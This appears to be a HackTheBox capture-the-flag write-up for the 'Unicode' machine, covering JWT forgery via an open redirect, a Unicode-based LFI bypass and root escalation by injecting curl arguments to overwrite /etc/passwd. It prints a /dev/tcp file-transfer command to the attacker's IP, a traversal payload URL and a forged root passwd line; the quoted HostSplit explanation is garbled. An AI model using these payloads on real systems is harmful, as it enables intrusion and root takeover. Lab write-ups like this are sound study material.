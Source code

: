 ```yaml
---
title: HackTheBox - Unicode 
categories: htb OpenRedirect jwt HostSplit 
excerpt: | 
   Unicode is a medium difficulty Linux machine.

feature_text: |
  ## Tabby - Easy
  
feature_image: "https://picsum.photos/2560/600?image=733"
image: "https://picsum.photos/2560/600?image=733"
---
```


### Scanning process
nmap ip:
``` 
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fd:a0:f7:93:9e:d3:cc:bd:c2:3c:7f:92:35:70:d7:77 (RSA)
|   256 8b:b6:98:2d:fa:00:e5:e2:9c:8f:af:0f:44:99:03:b1 (ECDSA)
|_  256 c9:89:27:3e:91:cb:51:27:6f:39:89:36:10:41:df:7c (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-generator: Hugo 0.83.1
|_http-title: Hackmedia
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
The machine begins with the enumeration of a webserver. Upon registering a new account on the webserver a *JWK cookie* is used to authenticate the current session.
Inspecting the JWK cookie reveals that it is signed through a jwks.json stored on the server.

There is an *open redirect* in `http://10.10.11.126/redirect?url=`. 

### Exploit vulnerabilities
Combining the findings so far an attacker could use the `jkt_tool` to generate a new couple of private and public keys, and use the open redirect to alocate in his domain a new jwks.json.

Replacing the authentication cookie with the newly crafted in [jwt.io](https://jwt.io) the server will request to the attacker machine for the jwks.json.

Once you're in dashboard page there is an heavily filtered LFI endpoint. To bypass the filtration a *HostSplit* attack can be userd since the webserver converts Unicode characters back to ASCII: 
> HostSplit vulnerability: the redirect logic for this endpoint only checked that the redirect URL ended with ".dropbox.com" this redirect would be accepted, but if a user browsed to this page with Edge, the browser would follow the redirect to https://evil.ca/c.dropbox.com instead of https://evil.ca/c.dropbox.com.

```
http://10.10.11.126/display/?page=..%ef%bc%8f..%ef%bc%8f..%ef%bc%8f..%ef%bc%8f..%ef%bc%8f..%ef%bc%8f..%ef%bc%8f..%ef%bc%8f..%ef%bc%8fetc%ef%bc%8fnginx%ef%bc%8fsites-available%ef%bc%8fdefault
```

Enumerating the local file system there is an db.yaml with credentials in /etc/nginx/sites-available/default. Check this file and use this credentials to create a ssh conection.

### Privilege Scalation
Look for privilege: sudo -l.
> (ALL)/(ALL) /usr/bin/treport as sudo

Examine how it works. An attacker can get the Python compiled binary and extract the source code.
1. (attacker): `nc -lvnp 443 > treport`
2. (victim): `cat < /usr/bin/treport > /dev/tcp/{tu\_ip}/443/treport`

Get the md5sum of the file to check if there was any problem.

The attacker is able extract the source code using [pyinstxtractor](https://github.com/extremecoders-re/pyinstxtractor) utility. Then use [pycdc](https://github.com/zrax/pycdc).

Reviewing the source code the attacker is able to spot a filtering bypass to inject command arguments to a `curl` call. 

The attacker can change the root password if he could change the /etc/passwd file. Download the passwd file of the victim's machine and change the 'x' value to an des(unix) format. Generate one of them with openssl:
> root:KW25kt7gvYupk:0:0:root:/root:/bin/bash

Use {your\_ip/passwd,-o,/etc/passwd} as input of the execution of treport.

Finally access to `su root` and use the password you have changed

